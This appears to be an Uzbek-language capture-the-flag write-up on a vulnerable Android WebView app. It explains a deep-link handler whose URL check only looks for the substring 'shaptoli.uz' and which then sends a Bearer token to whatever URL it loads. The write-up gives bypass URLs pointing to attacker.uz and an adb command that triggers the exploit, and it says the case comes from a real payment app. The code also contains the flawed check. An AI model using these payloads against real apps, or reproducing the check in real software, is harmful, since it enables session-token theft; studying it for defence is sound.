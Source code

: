 MainActivity.java da WebView implement qilinyapti, setJavaScriptEnabled orqali JavaScript kod executionga ruxsat berilyapti, keyin datani pass qilganda arrays.xml ichidan 2 string olyapti:

```
    <string-array name="HByubYUByubUg67">
        <item>vulnapp</item>
        <item>load</item>
    </string-array>
```

Bu degani activity call qilinganda data kutadi parametrda, data vulnapp://load?url= ko'rinishida bo'lishi kerak:
```
String urlToLoad = data.getQueryParameter("url"); \\ URL parameter parse qilish
```

**Zaiflik bor kod shu yerda joylashgan, app faqat shaptoli.uz saytini ochishga moslashgan, saytga esa Bearer token jo'natadi:**
**Bu case haqiqiy to'lov dasturidan olingan, zaiflik orqali boshqalarga link jo'natib, dasturni ishga tushirib dasturdan foydalanuvchi sessiyasini o'g'irlash iloji bo'lgan**

```
  if (urlToLoad != null && !urlToLoad.isEmpty()) { // URL parametrdagi havola null bo'lmasligi kerak
                Log.d(TAG, "URL: " + urlToLoad); // logcatda chiqaradi olgani havolani
                if (urlToLoad.contains("shaptoli.uz")) { \\ URL=url da shaptoli.uz string bormi tekshiradi
                    Log.i(TAG, "URL check passed (vulnerable). Loading: " + urlToLoad); // agar URL=<shu yerda> shaptoli.uz string bo'lsa checkdan o'tadi masalan http://shaptoli.uz.attacker.uz
                    Toast.makeText(this, "Loading URL (check passed): " + urlToLoad, Toast.LENGTH_LONG).show(); // Appda pop up "Check passed"
                    String bearerTokenPayload = _get_payload_data(); // Flagni decrypt qiladigan funksiyani chaqiryapti, shu yerda Dynamic RE qilib flagni extract qilsa bo'ladi Frida bilan
                    Map<String, String> headers = new HashMap<>();
                    headers.put("Authorization", "Bearer " + bearerTokenPayload); // Authorization headerda flagni base64 qilib jo'natadi
                    headers.put("X-Custom-Header", "VulnerableAppTest");
                    webView.loadUrl(urlToLoad, headers); // Linkni ochish
                } else {
                    Log.w(TAG, "URL check failed. URL does not contain 'shaptoli.uz': " + urlToLoad); // agar shaptoli.uz string URL ichida bo'lmasa error beradi.
                    Toast.makeText(this, "URL check failed. Must contain 'shaptoli.uz'", Toast.LENGTH_LONG).show();
                    webView.loadData(
                            "<html><body><h1>Error: Invalid URL.</h1><p>The URL must contain 'shaptoli.uz'.</p></body></html>",
                            "text/html", "UTF-8"
                    );
                }
```

Hammasi aniq, schema: vulnapp, host: load, parametr: url:
```vulnapp://load?url=shaptoli.uz```

Lekin bizda security check bor, URL ichida shaptoli.uz string bo'lishi kerak, buyog'i oddiy Bug bounty tricks & tips dan:

```
vulnapp://load?url=attacker.uz/shaptoli.uz
vulnapp://load?url=shaptoli.uz.attacker.uz
vulnapp://load?url=shaptoli.uz@attacker.uz
```
Bizda exploit qilish uchun payload bor, endi uni jo'natish kerak, birinchi yo'li ADB orqali invoke qilish:

``` adb shell am start -W -a android.intent.action.VIEW -d "vulnapp://load?url=attacker.uz/shaptoli.uz" com.example.vulnerablewebview```

```